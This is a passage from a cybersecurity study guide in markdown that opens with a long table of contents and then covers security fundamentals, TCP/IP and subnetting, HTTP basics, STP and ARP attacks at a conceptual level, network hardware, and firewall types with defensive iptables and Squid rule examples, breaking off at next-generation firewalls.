

# Cybersecurity Recap

## Table of Contents

1. [Security Fundamentals](#security-fundamentals)
   1. [CIA Triad](#cia-triad)
   2. [Threat Modeling](#threat-modeling)
   3. [Risk Management](#risk-management)
   4. [STRIDE Threat Model](#stride-threat-model)
2. [Network Security](#network-security)
   1. [TCP/IP Stack](#tcpip-stack)
   2. [IP Addressing and Subnetting](#ip-addressing-and-subnetting)
      1. [IPv4 Addressing](#ipv4-addressing)
      2. [Subnetting Examples](#subnetting-examples)
   3. [Network Protocols](#network-protocols)
      1. [HTTP Protocol Details](#http-protocol-details)
      2. [Spanning Tree Protocol (STP)](#spanning-tree-protocol-stp)
      3. [Communication & Connectivity Protocols](#communication--connectivity-protocols)
      4. [Address Resolution Protocol (ARP)](#address-resolution-protocol-arp)
   4. [Network Hardware](#network-hardware)
   5. [Firewalls & IDS/IPS](#firewalls--idsips)
      1. [Firewall Types](#firewall-types)
      2. [Intrusion Detection Systems (IDS)](#intrusion-detection-systems-ids)
      3. [Intrusion Prevention Systems (IPS)](#intrusion-prevention-systems-ips)
      4. [IDS vs IPS Comparison](#ids-vs-ips-comparison)
      5. [SIEM Integration](#siem-integration)
   6. [Network Segmentation](#network-segmentation)
   7. [VPN Technologies](#vpn-technologies)
      1. [VPN Types](#vpn-types)
      2. [IPsec VPN Setup](#ipsec-vpn-setup)
      3. [IPsec Protocols & Modes](#ipsec-protocols--modes)
3. [Web Application Security](#web-application-security)
   1. [OWASP Standards](#owasp-standards)
   2. [1) Broken Access Control](#1-broken-access-control)
      1. [2) Cryptographic Failures](#2-cryptographic-failures)
      2. [3) Injection](#3-injection)
      3. [4) Insecure Design](#4-insecure-design)
      4. [5) Security Misconfiguration](#5-security-misconfiguration)
      5. [6) Vulnerable and Outdated Components](#6-vulnerable-and-outdated-components)
      6. [7) Identification and Authentication Failures](#7-identification-and-authentication-failures)
      7. [8) Software and Data Integrity Failures](#8-software-and-data-integrity-failures)
      8. [9) Security Logging and Monitoring Failures](#9-security-logging-and-monitoring-failures)
      9. [10) Server-Side Request Forgery (SSRF)](#10-server-side-request-forgery-ssrf)
   3. [SQL Injection](#sql-injection)
   4. [Buffer Overflow](#buffer-overflow)
   5. [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
   6. [Cross-Site Request Forgery (CSRF)](#cross-site-request-forgery-csrf)
   7. [Content Security Policy (CSP)](#content-security-policy-csp)
   8. [Strict-Transport-Security (HSTS)](#strict-transport-security-hsts)
   9. [X-Content-Type-Options](#x-content-type-options)
   10. [Referrer-Policy](#referrer-policy)
   11. [Common Web Attacks](#common-web-attacks)
      1. [Directory Traversal](#directory-traversal)
      2. [Authentication Bypass](#authentication-bypass)
      3. [Insecure Direct Object Reference (IDOR)](#insecure-direct-object-reference-idor)
      4. [File Inclusion (LFI/RFI)](#file-inclusion-lfirfi)
      5. [Cross Site Request Forgery (CSRF)](#cross-site-request-forgery-csrf)
      6. [Cross Site Scripting (XSS)](#cross-site-scripting-xss)
      7. [Server Side Request Forgery (SSRF)](#server-side-request-forgery-ssrf)
      8. [Server Side Template Injection (SSTI)](#server-side-template-injection-ssti)
      9. [Server Side Includes (SSI)](#server-side-includes-ssi)
4. [Secure Programming](#secure-programming)
   1. [Secure C Programming](#secure-c-programming)
   2. [Secure Java Programming](#secure-java-programming)
5. [Cryptography](#cryptography)
   1. [Classical Ciphers](#classical-ciphers)
      1. [Caesar Cipher](#caesar-cipher)
      2. [ROT13](#rot13)
      3. [Atbash Cipher](#atbash-cipher)
      4. [Vigenère Cipher](#vigenère-cipher)
      5. [Substitution Ciphers](#substitution-ciphers)
      6. [XOR Cipher](#xor-cipher)
   2. [Symmetric Encryption](#symmetric-encryption)
      1. [AES (Advanced Encryption Standard)](#aes-advanced-encryption-standard)
      2. [DES (Data Encryption Standard) - Legacy](#des-data-encryption-standard---legacy)
      3. [3DES (Triple DES)](#3des-triple-des)
      4. [ChaCha20](#chacha20)
   3. [Asymmetric Encryption](#asymmetric-encryption)
      1. [RSA (Rivest-Shamir-Adleman)](#rsa-rivest-shamir-adleman)
      2. [ECC (Elliptic Curve Cryptography)](#ecc-elliptic-curve-cryptography)
      3. [DH (Diffie-Hellman Key Exchange)](#dh-diffie-hellman-key-exchange)
      4. [ECDH (Elliptic Curve Diffie-Hellman)](#ecdh-elliptic-curve-diffie-hellman)
      5. [ElGamal](#elgamal)
      6. [DSA (Digital Signature Algorithm)](#dsa-digital-signature-algorithm)
   4. [Digital Signatures](#digital-signatures)
      1. [Attacks on Digital Signatures](#attacks-on-digital-signatures)
   5. [Digital Certificates](#digital-certificates)
      1. [X.509 Certificate Standard](#x509-certificate-standard)
      2. [TLS Protocol Stack](#tls-protocol-stack)
      3. [Mutual TLS (mTLS)](#mutual-tls-mtls)
   6. [Encoding & Data Representation](#encoding--data-representation)
   7. [Hashing](#hashing)
      1. [Hash Function Security Properties](#hash-function-security-properties)
      2. [MAC (Message Authentication Code) and HMAC](#mac-message-authentication-code-and-hmac)
   8. [Cryptographic Algorithms Comprehensive Comparison](#cryptographic-algorithms-comprehensive-comparison)
      1. [Symmetric Encryption Algorithms](#symmetric-encryption-algorithms)
      2. [Asymmetric Encryption Algorithms](#asymmetric-encryption-algorithms)
      3. [Key Exchange Algorithms](#key-exchange-algorithms)
      4. [Hash Functions](#hash-functions)
      5. [Password Hashing Algorithms](#password-hashing-algorithms)
      6. [Algorithm Selection Guidelines](#algorithm-selection-guidelines)
6. [Penetration Testing](#penetration-testing)
   1. [Reconnaissance](#reconnaissance)
   2. [Vulnerability Scanning](#vulnerability-scanning)
      1. [Nessus](#nessus)
      2. [OpenVAS](#openvas)
      3. [Nikto](#nikto)
   3. [CVE and CVSS](#cve-and-cvss)
      1. [CVE (Common Vulnerabilities and Exposures)](#cve-common-vulnerabilities-and-exposures)
      2. [CVSS (Common Vulnerability Scoring System)](#cvss-common-vulnerability-scoring-system)
   4. [Exploitation Frameworks](#exploitation-frameworks)
      1. [Metasploit](#metasploit)
      2. [Burp Suite](#burp-suite)
      3. [OWASP ZAP](#owasp-zap)
   5. [Post-Exploitation Techniques](#post-exploitation-techniques)
      1. [Lateral Movement](#lateral-movement)
      2. [Shells](#shells)
      3. [Privilege Escalation](#privilege-escalation)
   6. [Attack Lifecycle](#attack-lifecycle)
      1. [MITRE ATT&CK Framework](#mitre-attck-framework)
      2. [MITRE Caldera Framework](#mitre-caldera-framework)
      3. [MITRE ATLAS (Adversarial Threat Landscape for AI Systems)](#mitre-atlas-adversarial-threat-landscape-for-ai-systems)
      4. [Cyber Kill Chain](#cyber-kill-chain)
7. [DFIR (Digital Forensics and Incident Response)](#dfir-digital-forensics-and-incident-response)
   1. [Incident Management](#incident-management)
   2. [Phases of Incident Response (NIST Framework)](#phases-of-incident-response-nist-framework)
   3. [Digital Forensics](#digital-forensics)
      1. [Forensic Artifacts](#forensic-artifacts)
      2. [Triage Collection](#triage-collection)
      3. [Memory Forensics](#memory-forensics)
      4. [Disk Imaging](#disk-imaging)
      5. [File Analysis](#file-analysis)
      6. [Network Forensics](#network-forensics)
      7. [PCAP Analysis](#pcap-analysis)
      8. [Steganography](#steganography)
      9. [Sleuth Kit (TSK)](#sleuth-kit-tsk)
      10. [Autopsy (GUI)](#autopsy-gui)
   4. [Log Analysis](#log-analysis)
   5. [SIEM Tools](#siem-tools)
      1. [Splunk](#splunk)
      2. [ELK Stack (Elasticsearch, Logstash, Kibana)](#elk-stack-elasticsearch-logstash-kibana)
      3. [Zeek (Network Security Monitor)](#zeek-network-security-monitor)
8. [Types of Cyber Attacks](#types-of-cyber-attacks)
   1. [Malware Types](#malware-types)
      1. [Virus](#virus)
      2. [Worm](#worm)
      3. [Trojan Horse](#trojan-horse)
      4. [Ransomware](#ransomware)
      5. [Spyware](#spyware)
      6. [Adware](#adware)
      7. [Rootkit](#rootkit)
      8. [Botnet](#botnet)
   2. [Attack Vectors](#attack-vectors)
      1. [Phishing](#phishing)
      2. [Social Engineering](#social-engineering)
      3. [Man-in-the-Middle (MITM) Attacks](#man-in-the-middle-mitm-attacks)
      4. [Advanced Persistent Threats (APT)](#advanced-persistent-threats-apt)
   3. [DDoS (Distributed Denial of Service) Attacks](#ddos-distributed-denial-of-service-attacks)
      1. [Volume-Based Attacks (Volumetric)](#volume-based-attacks-volumetric)
      2. [Protocol Attacks](#protocol-attacks)
      3. [Application Layer Attacks (Layer 7)](#application-layer-attacks-layer-7)
      4. [Reflection Attacks](#reflection-attacks)
      5. [Amplification Attacks](#amplification-attacks)
   4. [DDoS Mitigation Strategies](#ddos-mitigation-strategies)
      1. [1. Rate Limiting & Traffic Filtering](#1-rate-limiting--traffic-filtering)
      2. [2. SYN Flood Protection (SYN Cookies, SYN Proxy)](#2-syn-flood-protection-syn-cookies-syn-proxy)
      3. [3. Firewalls & IDS/IPS Integration](#3-firewalls--idsips-integration)
      4. [4. Web Application Firewall (WAF)](#4-web-application-firewall-waf)
      5. [5. BCP 38 (Ingress Filtering)](#5-bcp-38-ingress-filtering)
      6. [6. Reflection & Amplification Controls](#6-reflection--amplification-controls)
      7. [7. Advanced Monitoring and Response](#7-advanced-monitoring-and-response)
      8. [8. Cloud-Based DDoS Protection](#8-cloud-based-ddos-protection)
   5. [Botnets](#botnets)
      1. [Architectures](#architectures)
      2. [Command & Control (C2) Channels](#command--control-c2-channels)
      3. [Lifecycle Phases](#lifecycle-phases)
      4. [C2 Resilience Techniques](#c2-resilience-techniques)
      5. [Detection Techniques](#detection-techniques)
      6. [Notable Botnets](#notable-botnets)
9. [Malware Analysis](#malware-analysis)
   1. [Static Analysis](#static-analysis)
   2. [Dynamic Analysis](#dynamic-analysis)
   3. [Symbolic Execution](#symbolic-execution)
      1. [Key Challenges & Techniques](#key-challenges--techniques)
      2. [Use Cases](#use-cases)
   4. [Binary Exploitation](#binary-exploitation)
      1. [Registers](#registers)
      2. [The Stack](#the-stack)
      3. [Stack Overflow](#stack-overflow)
      4. [Global Offset Table (GOT)](#global-offset-table-got)
      5. [Buffers and Buffer Overflows](#buffers-and-buffer-overflows)
      6. [Return Oriented Programming (ROP)](#return-oriented-programming-rop)
      7. [Binary Security](#binary-security)
      8. [The Heap and Exploitation](#the-heap-and-exploitation)
      9. [Format String Vulnerability](#format-string-vulnerability)
      10. [Integer Overflow](#integer-overflow)
   5. [Reverse Engineering](#reverse-engineering)
      1. [Assembly Language](#assembly-language)
      2. [Disassemblers & Debuggers](#disassemblers--debuggers)
      3. [Decompilers](#decompilers)
10. [Cloud Security](#cloud-security)
    1.  [Cloud Security Alliance (CSA)](#cloud-security-alliance-csa)
        1.  [Common Cloud Vulnerabilities](#common-cloud-vulnerabilities)
        2.  [Cloud Security Principles](#cloud-security-principles)
    2.  [AWS Security](#aws-security)
    3.  [Container Security](#container-security)
    4.  [Cloud Architecture & Deployment Models](#cloud-architecture--deployment-models)
        1.  [Service Models](#service-models)
        2.  [Deployment Models](#deployment-models)
        3.  [Computing Models](#computing-models)
        4.  [Virtualization & Containerization](#virtualization--containerization)
        5.  [Architecture Patterns](#architecture-patterns)
1. [Identity & Access Management (IAM)](#identity--access-management-iam)
   1. [General Concepts](#general-concepts)
      1. [Authentication Factors](#authentication-factors)
      2. [Types of Authenticators](#types-of-authenticators)
      3. [FIDO Alliance & Protocols](#fido-alliance--protocols)
      4. [NIST Digital Identity Guidelines (SP 800-63)](#nist-digital-identity-guidelines-sp-800-63)
      5. [RBAC vs ABAC VS PBAC](#rbac-vs-abac-vs-pbac)
      6. [XACML 3.0 (eXtensible Access Control Markup Language)](#xacml-30-extensible-access-control-markup-language)
      7. [eIDAS Levels of Assurance (LoA)](#eidas-levels-of-assurance-loa)
   2. [Active Directory](#active-directory)
      1. [Logical Structure](#logical-structure)
      2. [AD Components](#ad-components)
      3. [Objects in AD](#objects-in-ad)
      4. [Authentication & Access](#authentication--access)
   3. [LDAP](#ldap)
   4. [Single Sign-On (SSO)](#single-sign-on-sso)
      1. [Federated Identity Concepts](#federated-identity-concepts)
      2. [SAML (Security Assertion Markup Language)](#saml-security-assertion-markup-language)
      3. [OAuth 2.0](#oauth-20)
      4. [OpenID Connect](#openid-connect)
1. [JSON Web Tokens (JWT) Security](#json-web-tokens-jwt-security)
   1. [JWT Structure and Components](#jwt-structure-and-components)
      1. [JWT Creation and Verification](#jwt-creation-and-verification)
   2. [JWT Security Vulnerabilities and Attacks](#jwt-security-vulnerabilities-and-attacks)
      1. [1. Algorithm Confusion Attacks](#1-algorithm-confusion-attacks)
      2. [2. None Algorithm Attack](#2-none-algorithm-attack)
      3. [3. Weak Secret/Key Attacks](#3-weak-secretkey-attacks)
      4. [4. Token Replay Attacks](#4-token-replay-attacks)
      5. [5. Information Disclosure](#5-information-disclosure)
   3. [JWT vs Other Token Formats](#jwt-vs-other-token-formats)
      1. [JWT vs Opaque Tokens](#jwt-vs-opaque-tokens)
      2. [JWT-VC (Verifiable Credentials) vs JSON-LD VC](#jwt-vc-verifiable-credentials-vs-json-ld-vc)
      3. [Comparison Table: JWT-VC vs JSON-LD VC](#comparison-table-jwt-vc-vs-json-ld-vc)
   4. [Security Best Practices for JWT](#security-best-practices-for-jwt)
1. [Session Management](#session-management)
   1. [Stateful Session Management](#stateful-session-management)
      1. [Problems with Session IDs](#problems-with-session-ids)
      2. [How JWT Solves These Problems](#how-jwt-solves-these-problems)
1. [Mobile Security](#mobile-security)
   1. [Android Security](#android-security)
   2. [iOS Security](#ios-security)
1. [Compliance & Governance](#compliance--governance)
   1. [GDPR](#gdpr)
   2. [PCI DSS](#pci-dss)
   3. [ISO 27001](#iso-27001)
   4. [NIST Framework](#nist-framework)
   5. [NIS2 Directive](#nis2-directive)
   6. [ISO/IEC 27005](#isoiec-27005)
   7. [FAIR Model (Factor Analysis of Information Risk)](#fair-model-factor-analysis-of-information-risk)
1. [Password Attacks](#password-attacks)
   1. [Forensics Tools](#forensics-tools)
1. [Bug Bounty Hunting](#bug-bounty-hunting)
   1. [Types of Disclosures](#types-of-disclosures)
   2. [Bug Bounty Actors](#bug-bounty-actors)
   3. [Bug Bounty Types & Approaches](#bug-bounty-types--approaches)
   4. [Vulnerability Reports & Triaging](#vulnerability-reports--triaging)
   5. [Threat Actor Naming (Microsoft)](#threat-actor-naming-microsoft)
1. [Hardware & Physical Security](#hardware--physical-security)
   1. [Hardware Security Modules (HSM)](#hardware-security-modules-hsm)
   2. [Trusted Platform Module (TPM)](#trusted-platform-module-tpm)
      1. [TPM Keys](#tpm-keys)
      2. [TPM 1.2 vs 2.0](#tpm-12-vs-20)
      3. [Attestation Methods](#attestation-methods)
      4. [Hardware Security Technologies](#hardware-security-technologies)
   3. [Physical Security Controls](#physical-security-controls)
      1. [Access Control Systems (ACS)](#access-control-systems-acs)
      2. [Interfaces & Protocols](#interfaces--protocols)
      3. [RFID / NFC Cards](#rfid--nfc-cards)
      4. [Typical Attacks](#typical-attacks)
      5. [Card Security](#card-security)
      6. [Reader Security](#reader-security)
1. [Emerging Technologies](#emerging-technologies)
   1. [Blockchain](#blockchain)
      1. [Traditional vs Distributed Ledgers](#traditional-vs-distributed-ledgers)
      2. [Blockchain Basics](#blockchain-basics)
      3. [Blockchain Types](#blockchain-types)
      4. [Consensus Mechanisms](#consensus-mechanisms)
      5. [Bitcoin Mining & Security](#bitcoin-mining--security)
      6. [Blockchain Security](#blockchain-security)
   2. [AI & Machine Learning Security](#ai--machine-learning-security)
20. [Common Interview Questions](#common-interview-questions)

# Security Fundamentals

## CIA Triad
Core principles of information security.

- **Confidentiality**: Information is accessible only to authorized individuals
  - *Implementation*: Encryption, access controls, data classification
  - *Threats*: Data breaches, unauthorized disclosure, eavesdropping
- **Integrity**: Information remains accurate and unaltered
  - *Implementation*: Digital signatures, hashing, version control
  - *Threats*: Data tampering, unauthorized modifications, corruption
- **Availability**: Information and services are accessible when needed
  - *Implementation*: Redundancy, load balancing, disaster recovery
  - *Threats*: DDoS attacks, system failures, natural disasters

**Extended Security Properties**
- **Non-Repudiation**: Preventing denial of actions or transactions
  - *Implementation*: Digital signatures, audit logs, timestamps
  - *Use Case*: Legal evidence, transaction accountability
- **Authenticity**: Verification that information comes from legitimate source
  - *Implementation*: Digital certificates, cryptographic signatures
  - *Relationship*: Works with integrity to ensure trusted communication
- **Accountability**: Ability to trace actions to specific entities
  - *Implementation*: Comprehensive logging, identity tracking
  - *Requirement*: Supports compliance and forensic investigations

## Threat Modeling

**Purpose**: Systematic approach to identify and assess security threats in systems and applications.

**Process**:
1. **Identify Assets**: Data, systems, and resources that need protection
2. **Identify Adversaries**: Who might attack the system (threat actors)
3. **Identify Vulnerabilities**: Weaknesses that could be exploited

## Risk Management
**Asset-based vs Threat-based Approaches**:
- **Asset-based**: Focus on protecting valuable assets
- **Threat-based**: Focus on defending against specific threats

**Risk Calculation**: Risk = Likelihood × Impact

## STRIDE Threat Model
**Purpose**: Microsoft's framework for identifying security threats in system design.

| Threat Category            | Meaning                              | Examples                                          | Countermeasures                                  | CIA+ Mapping                    |
| -------------------------- | ------------------------------------ | ------------------------------------------------- | ------------------------------------------------ | ------------------------------- |
| **Spoofing**               | Impersonating someone/something else | IP spoofing, email spoofing, fake websites        | Strong authentication, digital certificates      | **Authentication**              |
| **Tampering**              | Modifying data or code               | SQL injection, MITM, file modification            | Input validation, integrity checks, encryption   | **Integrity**                   |
| **Repudiation**            | Denying performing an action         | Denying transactions, deleting audit logs         | Digital signatures, audit logging                | **Integrity / Non-Repudiation** |
| **Information Disclosure** | Unauthorized data exposure           | Data breaches, privilege escalation, info leakage | Access control, encryption, data classification  | **Confidentiality**             |
| **Denial of Service**      | Making services unavailable          | DDoS, resource exhaustion, system crashes         | Rate limiting, redundancy, monitoring            | **Availability**                |
| **Elevation of Privilege** | Gaining higher access than allowed   | Buffer overflow, privilege escalation, weak auth  | Least privilege, secure coding, input validation | **Authorization**               |

# Network Security

## TCP/IP Stack
**Purpose**: Foundation of internet communication

| Layer | OSI Model    | TCP/IP Model   | Protocols                                                  | Protocol Data Unit             | Description                             |
| ----- | ------------ | -------------- | ---------------------------------------------------------- | ------------------------------ | --------------------------------------- |
| 7     | Application  | Application    | FTP, HTTP, Telnet, SMTP, DNS, SSH                          | Data                           | Network Process to application          |
| 6     | Presentation | Application    | JPEG, PNG, MPEG, Sockets, HTML, IMAP                       | Data                           | Data representation and encryption      |
| 5     | Session      | Application    | NFS, SQL, PAP, RPC, RTP, API's                             | Data                           | Interhost communication                 |
| 4     | Transport    | Transport      | TCP, UDP, SSL, TLS                                         | Segment (TCP) / Datagram (UDP) | End-to-end connection and reliability   |
| 3     | Network      | Internet       | IPv4, IPv6, ICMP                                           | Packet                         | Path determination (Logical addressing) |
| 2     | Data Link    | Network Access | ARP, CDP, STP, VLAN, Switch, Bridge                        | Frame                          | MAC and LLC (Physical addressing)       |
| 1     | Physical     | Network Access | Ethernet, WI-FI, CAT, DSL, RJ45, 100Base-TX, Hub, Repeater | Bits                           | Media, signal and binary transmission   |

## IP Addressing and Subnetting
A router assigns IP addresses to devices on a home network using a "pool" of addresses, ensuring no duplicates. This process, called dynamic IP assignment, uses the DHCP protocol.

### IPv4 Addressing
**Structure**: 32-bit address divided into 4 octets (e.g., 192.168.1.1)

**Address Classes**:
| Class | Range                       | Default Subnet Mask | Total Networks   | Hosts per Network | Use Case            |
| ----- | --------------------------- | ------------------- | ---------------- | ----------------- | ------------------- |
| A     | 1.0.0.0 – 126.255.255.255   | 255.0.0.0 (/8)      | 128 (126 usable) | 16,777,214        | Very large networks |
| B     | 128.0.0.0 – 191.255.255.255 | 255.255.0.0 (/16)   | 16,384           | 65,534            | Medium networks     |
| C     | 192.0.0.0 – 223.255.255.255 | 255.255.255.0 (/24) | 2,097,152        | 254               | Small networks      |
| D     | 224.0.0.0 – 239.255.255.255 | N/A                 | N/A              | N/A               | Multicast           |
| E     | 240.0.0.0 – 255.255.255.255 | N/A                 | N/A              | N/A               | Experimental / R&D  |

**Private IP Ranges** (RFC 1918):
- **Class A**: 10.0.0.0/8 (10.0.0.0 - 10.255.255.255)
- **Class B**: 172.16.0.0/12 (172.16.0.0 - 172.31.255.255)
- **Class C**: 192.168.0.0/16 (192.168.0.0 - 192.168.255.255)

### Subnetting Examples
```bash
# Example: 192.168.1.0/24 network
Network: 192.168.1.0
Subnet Mask: 255.255.255.0 (/24)
Broadcast: 192.168.1.255
Usable IPs: 192.168.1.1 - 192.168.1.254 (254 hosts)

# Subnetting 192.168.1.0/24 into 4 subnets (/26)
Subnet 1: 192.168.1.0/26   (192.168.1.1-62)
Subnet 2: 192.168.1.64/26  (192.168.1.65-126)
Subnet 3: 192.168.1.128/26 (192.168.1.129-190)
Subnet 4: 192.168.1.192/26 (192.168.1.193-254)
```

**CIDR Notation**:
- /24 = 255.255.255.0 (256 IPs, 254 usable)
- /25 = 255.255.255.128 (128 IPs, 126 usable)
- /26 = 255.255.255.192 (64 IPs, 62 usable)
- /27 = 255.255.255.224 (32 IPs, 30 usable)

## Network Protocols
```bash
# TCP Handshake
1. SYN → 2. SYN-ACK → 3. ACK

# HTTP vs HTTPS
HTTP: Port 80, plaintext
HTTPS: Port 443, TLS encrypted

# DNS Resolution
dig example.com
nslookup example.com
```

### HTTP Protocol Details

**URL Structure**: `protocol://host:port/path?query_parameters#fragment`

**HTTP Methods**:
```http
GET /index.html HTTP/1.1          # Retrieve resource
POST /api/users HTTP/1.1          # Create/submit data
PUT /api/users/123 HTTP/1.1       # Update entire resource
DELETE /api/users/123 HTTP/1.1    # Remove resource
PATCH /api/users/123 HTTP/1.1     # Partial update
```

**Request Headers**:
```http
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Referer: https://google.com
Cookie: sessionid=abc123; userid=456
```

**Response Headers**:
```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 12:00:00 GMT
Last-Modified: Sun, 31 Dec 2023 10:00:00 GMT
Expires: Tue, 02 Jan 2024 12:00:00 GMT
Set-Cookie: sessionid=xyz789; HttpOnly; Secure
Content-Type: text/html; charset=UTF-8
```

**Response Codes**: 1xx=info, 2xx=success, 3xx=redirect, 4xx=client error, 5xx=server error

**Security Policies**:
- **Same-Origin Policy (SOP)**: Resources from same origin (protocol + host + port) can access each other
- **CORS**: Allows controlled cross-origin requests via Access-Control headers
- **Stateless**: Each request/response independent, no server-side session state

**REST APIs:**   
REST (Representational State Transfer) API is a way for applications to communicate over HTTP using a stateless architecture. It uses standard HTTP methods (GET, POST, PUT, DELETE) to perform CRUD operations on resources identified by URLs.
- **Traditional Sessions**: State stored on server, user gets session ID token → vulnerable to session hijacking
- **Stateless Sessions (JWT)**: Entire state in signed token, server doesn't keep state → more scalable, harder to revoke

### Spanning Tree Protocol (STP)
**Purpose**: Prevents loops in Ethernet networks by creating loop-free topology at Layer 2.

**Functions**: Blocks redundant paths, ensures single path between devices, prevents broadcast storms.

**BPDU (Bridge Protocol Data Unit)**: A control message exchanged between switches in Spanning Tree Protocol (STP) that carries information (bridge IDs, priorities, path costs) used to elect the root bridge and determine port roles and states.

**Improved Versions**: RSTP (Rapid STP), MSTP (Multiple STP), SPB (Shortest Path Bridging)

**STP Attacks**:
- **Root Bridge Attack**: Attacker claims to be root bridge
- **BPDU Flooding**: Excessive BPDU packets cause instability
- **Topology Change Attack**: False topology change notifications force MAC table clearing
- **Information Disclosure**: Exploiting STP for network reconnaissance

**Prevention**:
- Enable BPDU Guard on edge ports
- Regularly monitor STP topology
- Implement port security on switch ports
- Disable unused ports

### Communication & Connectivity Protocols

**Coupling vs Decoupling**
* **Coupling**: Sender/receiver depend on each other in space (know identity) and time (must be active together). Example: Direct IP, synchronous calls.
* **Decoupling**: Sender/receiver independent in space and/or time. Example: Pub-sub, message queues, email.

**Direct vs Indirect Communication**
* **Direct**: Sender talks straight to receiver (space + time coupled). Example: RPC, P2P.
* **Indirect**: Through intermediary (broker/queue), allows decoupling. Example: Kafka, RabbitMQ, MQTT.

**Synchronous vs Asynchronous**
* **Synchronous**: Sender waits for reply (time coupled). Example: HTTP, RPC.
* **Asynchronous**: Sender doesn’t wait, message handled later (time decoupled). Example: email, SMS, queues.

**Event-Driven Architecture (EDA)**:  
- **Components**: Producer (sends events) → Channel (distributes) → Consumer (processes)   
- **Benefits**: Asynchronous communication, scalability, loose coupling
- **When Not to Use:** Small/synchronous systems

**Communication Paradigms**:
- **Request-Reply**: Synchronous interaction (REST, CoAP)
- **Publish-Subscribe**: Asynchronous via broker (MQTT, AMQP, DDS)

**MQTT Protocol**: Lightweight pub-sub for IoT over TCP
- **Topics**: Message filtering mechanism
- **Wildcards**: Single-level (+), Multi-level (#)
- **Features**: Lightweight, scalable, flexible QoS levels

**Connectivity Protocols (IoT)**
* **LoRaWAN / Sigfox**: Long-range (10 km), low-power (years on single battery), end-to-end encryption, massive IoT scalability

### Address Resolution Protocol (ARP)
**Purpose**: Maps IP addresses to MAC addresses on local networks (Layer 2-3 bridge)

**Process**: Host broadcasts ARP request → Target responds with MAC address → Cached in ARP table

**ARP Attacks**:
- **ARP Poisoning/Spoofing**: Attacker sends fake ARP responses mapping victim's IP to attacker's MAC
- **Impact**: Man-in-the-middle attacks, traffic interception, denial of service
- **Prevention**: Static ARP entries, ARP monitoring tools, switch port security

## Network Hardware

| Device            | OSI Layer           | Function                                  | Use Cases                            | Security Considerations                        |
| ----------------- | ------------------- | ----------------------------------------- | ------------------------------------ | ---------------------------------------------- |
| **Hub**           | Physical (1)        | Repeats signals to all ports              | Legacy networks, small setups        | No security - broadcasts to all ports          |
| **Switch**        | Data Link (2)       | Forwards frames based on MAC addresses    | LAN segmentation, VLAN creation      | MAC flooding attacks, VLAN hopping             |
| **Router**        | Network (3)         | Routes packets between different networks | Internet connectivity, WAN links     | Default route vulnerabilities, routing attacks |
| **Firewall**      | Network (3-7)       | Filters traffic based on rules            | Perimeter security, access control   | Rule misconfiguration, bypass techniques       |
| **Load Balancer** | Transport (4-7)     | Distributes traffic across servers        | High availability, performance       | SSL termination risks, session persistence     |
| **Proxy**         | Application (7)     | Intermediary for client requests          | Content filtering, caching           | Man-in-the-middle risks, SSL inspection        |
| **WAF**           | Application (7)     | Filters web application traffic           | Web app protection, DDoS mitigation  | False positives, rule evasion                  |
| **IDS/IPS**       | Network (3-7)       | Monitors/blocks malicious traffic         | Threat detection, incident response  | Signature evasion, performance impact          |
| **Access Point**  | Physical/Data (1-2) | Wireless network connectivity             | WiFi access, mobility                | WPA/WEP vulnerabilities, rogue APs             |
| **Bridge**        | Data Link (2)       | Connects network segments                 | Network extension, collision domains | Bridging loops, MAC table exhaustion           |

**Network Device Security Best Practices**:
- Regular firmware updates and patch management
- Strong authentication and access controls
- Network segmentation and VLAN isolation
- Monitoring and logging for anomaly detection
- Disable unnecessary services and default accounts

## Firewalls & IDS/IPS

### Firewall Types

#### 1. Packet Filtering Firewalls (Stateless)
**Mechanism**: Examines individual packets based on static rules (IP addresses, ports, protocols)
- **Advantages**: Fast, low resource usage, simple configuration
- **Disadvantages**: No context awareness, vulnerable to connection hijacking, IP spoofing
```bash
# iptables packet filtering examples
iptables -A INPUT -p tcp --dport 22 -s 192.168.1.0/24 -j ACCEPT    # Allow SSH from local network
iptables -A INPUT -p tcp --dport 80 -j ACCEPT                      # Allow HTTP
iptables -A INPUT -p tcp --dport 443 -j ACCEPT                     # Allow HTTPS
iptables -A INPUT -j DROP                                          # Default deny
```

#### 2. Stateful Inspection Firewalls
**Mechanism**: Tracks connection state and context, maintains connection table
- **Advantages**: Context-aware decisions, prevents connection hijacking, better security
- **Disadvantages**: Higher resource usage, more complex configuration
```bash
# iptables stateful rules
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT   # Allow established connections
iptables -A INPUT -p tcp --dport 22 -m state --state NEW -j ACCEPT # Allow new SSH connections
iptables -A OUTPUT -m state --state NEW,ESTABLISHED -j ACCEPT      # Allow outbound traffic
```

#### 3. Application Layer/Proxy Firewalls
**Mechanism**: Acts as intermediary, inspects application-layer data, understands protocols
- **Advantages**: Deep packet inspection, application-aware filtering, content filtering
- **Disadvantages**: Higher latency, resource intensive, single point of failure
```bash
# Squid proxy firewall configuration
acl localnet src 192.168.1.0/24
acl allowed_sites dstdomain .example.com .trusted.org
http_access allow localnet allowed_sites
http_access deny all
```

#### 4. Next-Generation Firewalls (NGFW)
**Mechanism**: Combines traditional firewall with IPS, application awareness, threat intelligence
- **Features**: Application control, user identity awareness, SSL inspection, sandboxing
